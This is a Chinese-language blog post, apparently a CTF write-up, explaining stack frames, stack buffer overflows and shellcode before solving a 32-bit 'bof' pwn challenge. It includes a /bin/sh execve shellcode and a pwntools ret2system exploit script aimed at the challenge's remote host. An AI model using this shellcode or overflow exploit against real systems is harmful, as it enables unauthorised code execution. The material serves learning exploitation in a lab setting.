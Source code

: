 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      pwn-bof	# 标题 
#subtitle:   脚本，xss #副标题
date:       2020-05-19 				# 时间
author:     s-seven 						# 作者
header-img: img/post-bg-2015.jpg 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - pwn
---
```


这两天改论文改的焦头烂额。。。bof这道题是第一阶段的时候做的了，但是当时没有及时记录下来，这两天又重新看了看。pwn真的好难啊

首先是几天预备知识，比如函数调用栈，栈溢出，shellcode等等

# 函数调用栈

栈是在函数被调用的时候开辟，函数返回的时候销毁，结构是这样的：

[![YIWkSx.png](https://s1.ax1x.com/2020/05/19/YIWkSx.png)](https://imgchr.com/i/YIWkSx)

每个栈的结构是一样的，其中bp寄存器是基址指针寄存器，指向栈帧的底部；sp寄存器是栈指针寄存器，指向栈帧的栈顶。栈从高地址向低地址生长。

在调用一个函数时，call指令做了两件事：

1. 将下一条指令的返回值入栈
2. 跳转到被调用函数入口点

这就是一个简单的函数调用栈。

#栈溢出

函数的参数分布在低地址的一端，但是有些操作是不检查缓冲区大小的，所以如果我们输入的参数覆盖掉了bp和return addr的内容时，就可以利用这个漏洞。

栈溢出漏洞的利用步骤：

1. 找到能够刚好覆盖返回地址的缓冲区长度
2. 填充shellcode并找到shellcode所在地址
3. 将返回地址覆盖为shellcode地址

# shellcode

shellcode是指一段能够控制目标程序的代码。

前几天长亭科技的公开课中讲了一些关于shellcode的知识，链接https://www.bilibili.com/video/BV1Sz411B76y?t=354

里面介绍了一个简单的shellcode：

```C
void shellcode()
{
	__asm__(
	"xor %eax,%eax\n\t"
	"pushl %eax\n\t"
	"push $0x68732f2f\n\t"     //压栈//sh
	"push $0x6e69622f\n\t"     //压栈/bin
	"pushl %ebx\n\t"
	"movl %esp,%ecx\n\t"   //ecx=['/bin//sh',0]
	"cltd\n\t"
	"movb $0xb,%al\n\t"    //syscall number
	"int $0x80\n\t"        //执行系统调用中断
	"movl %esp,%ebx\n\t"
	"pushl %eax\n\t"
	);
}
int main(int argc, char** argv)
{
	shellcode();
	return 0;
}
```

//sh和/sh是一样的，只不过是为了凑四个字节,这就是system('/bin//sh')函数

然后 执行一下：

[![YIW31P.png](https://s1.ax1x.com/2020/05/19/YIW31P.png)](https://imgchr.com/i/YIW31P)这就是一个简单的shellcode

# bof

有了以上知识，我们来看一下这道题目

拖进ida里面拿到源码：

```c
ssize_t sub_8048573()
{
  char buf; // [esp+Ch] [ebp-1Ch]

  sub_804851B();
  sub_804854A();
  puts("can you pwn me?");
  return read(0, &buf, 0x100u);
}
```

很容易的想到read函数可以利用栈溢出。这个函数读了0x100u大小的数据，我们需要找到能够刚好覆盖返回地址的缓冲区长度

buf距离ebp有1c的长度，显然我们输入的大小大于这个长度，我们需要填充1c+4=32个字节长度，因为 pwn 是一个 32 位的 ELF 文件，所以我们还需要填充 4 个字节的数据

同时我们要获取shell，也就是system('/bin/sh')函数，return addr应该是这个函数的地址。

```
.plt:080483F0 ; int system(const char *command)
.plt:080483F0 _system         proc near               ; CODE XREF: sub_804854A+1E↓p
.plt:080483F0
.plt:080483F0 command         = dword ptr  4
```

找到system的地址0x080483F0

[![YIhzm8.png](https://s1.ax1x.com/2020/05/19/YIhzm8.png)](https://imgchr.com/i/YIhzm8)

找到/bin/sh的地址0x0804A02C

得到地址之后实现我们的脚本：

```python
from pwn import *

r = remote('vps1.blue-whale.me',9990)
system_address = 0x080483F0
bin_sh_address = 0x0804A02C

payload = 'a'*32 + p32(system_address) + 'a'*4 + p32(bin_sh_address)

r.send(payload)
r.interactive()  
```

运行脚本得到flag